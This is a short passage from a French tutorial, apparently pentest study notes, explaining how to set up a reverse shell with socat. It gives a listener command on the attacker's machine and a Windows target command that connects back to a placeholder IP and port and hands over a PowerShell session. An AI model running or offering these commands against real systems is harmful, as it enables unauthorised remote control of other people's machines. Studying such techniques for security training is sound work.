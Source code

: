 
## __Reverse shell__

Pour setup un reverse shell avec socat c'est légèrement plus compliqué qu'avec netcat.

#### 1- Listener

Sur notre machine il faut effectuer la commande :

```shell
user@ip:~$ socat TCP-L:1345 -
```

Cette commande est équivalente à faire **`nc -vnlp 1234`**.

#### 2- Connection

Sur la machine cible, on va effectuer la commande :

1) Sur une machine windows

```shell
PS C:\Users\user> socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
```